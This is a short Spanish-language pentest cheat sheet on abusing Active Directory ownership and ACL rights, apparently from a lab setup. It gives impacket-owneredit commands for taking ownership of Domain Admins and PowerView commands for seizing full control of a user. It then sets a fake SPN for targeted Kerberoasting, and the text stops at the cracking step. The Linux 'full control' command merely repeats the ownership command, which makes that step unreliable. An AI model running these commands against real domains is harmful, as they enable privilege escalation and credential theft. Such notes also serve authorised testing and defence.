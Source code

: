 # Desde Linux

### Impacket

#### Cambiar el ownership
    impacket-owneredit -action write -new-owner 'aaru' -target-dn 'CN=Domain Admins,CN=Users,DC=ignite,DC=local' 'ignite.local'/'aaru':'Password@1' -dc-ip 192.168.1.6

#### Darse full control

    impacket-owneredit -action write -new-owner 'aaru' -target-dn 'CN=Domain Admins,CN=Users,DC=ignite,DC=local' 'ignite.local'/'aaru':'Password@1' -dc-ip 192.168.1.6

# Desde windows

  ### Powerview

#### Tomar control
    Set-DomainObjectOwner -Identity 'roma' -OwnerIdentity 'sameer'

#### Darse full control

    Add-DomainObjectAcl -Rights 'All' -TargetIdentity "roma" -PrincipalIdentity "sameer"

# Explotación/abuso

#### 1) Creamos un spn falso sobre el usuario

    Set-DomainObject -Identity 'roma' -Set @{serviceprincipalname='mydomain/Testing'}
#### 2) Kerberosteamos y crackeamos.
